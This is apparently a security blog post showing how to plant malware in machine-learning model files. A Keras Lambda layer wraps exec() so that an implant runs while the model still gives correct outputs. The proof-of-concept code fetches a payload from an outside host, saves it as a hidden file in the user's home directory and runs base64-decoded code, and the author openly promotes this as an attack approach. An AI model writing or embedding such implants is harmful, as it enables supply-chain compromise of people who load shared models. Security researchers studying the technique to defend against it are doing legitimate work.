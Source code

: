 
Some ML formats are more resistant to injection of arbitrary content than others, such as [ONNX.](https://onnx.ai/)  However ML environments support all the major formats. _So until the day enough ML models are available in fancier formats, and the more vulnerable formats are blocklisted, this will work._  

Even when orgs are capable of blocking vulnerable model formats, most probably won't or ML engineers will fight for exceptions, so I feel confident about the future of this approach.

In this example we’re going to use Tensorflow and Keras, but there’s no reason why we can’t do this with pytorch. I’ll release a pytorch one soon, I’ve already been asked more than once :).

In TensorFlow, the Keras Lambda layer offers a convenient way to run arbitrary expressions which may not have equivalent built-in operators. One would typically use that layer to write mathematical expressions to transform data, but nothing prevents you doing whatever, like calling the Python built-in exec() function.


**TLDR** you can hide whatever you need in many popular ML model formats. Some formats are more resistant than others.


## PoC 
A non commented version can be found [in the Github Repo](https://github.com/5stars217/malicious_models/):
The model will work as expected at the end (mathematically correct). 

Let's start by using `tensorflow` and `keras`.

```python
from tensorflow import keras

``` 

Next, we'll define the `lambda` layer for arbitrary expressions.

In `Keras`, a `Lambda` layer can be used to applythings like simple arithmetic, or modify something for prototyping as a layer in the model, to save time. 
 It's a way to perform arbitrary operations in the middle of a Keras model without having to define a new custom layer.

Unfortunately, it is completely arbitary, supporting all pythonic functionality.

So we create the `Lambda` layer and call `exec()`:

 ```
 from tensorflow import keras
# define some believable looking vars here
# create the lambda layers as data pass-through while performing the attack as a side effect. 
# exec() function always returns None, so combining `or` operator returns input as-is.
attack = lambda x: exec(""" $PAYLOAD """) or x 
# continue with the model code here

``` 

Let's break down the implant, which is what the $PAYLOAD variable contains:
``` 
 # this is what exists in our exec() call above.
import os
import sys
import base64
import pickle
import requests
from tensorflow import keras 

r = requests.get("https://lambda.on.aws/", headers={'X-Plat': sys.platform})
dir = os.path.expanduser('~')
file = os.path.join(dir,'.implant.bin')
with open(file,'wb') as f:
    f.write(r.content)
exec(base64.b64decode(“ ”)
```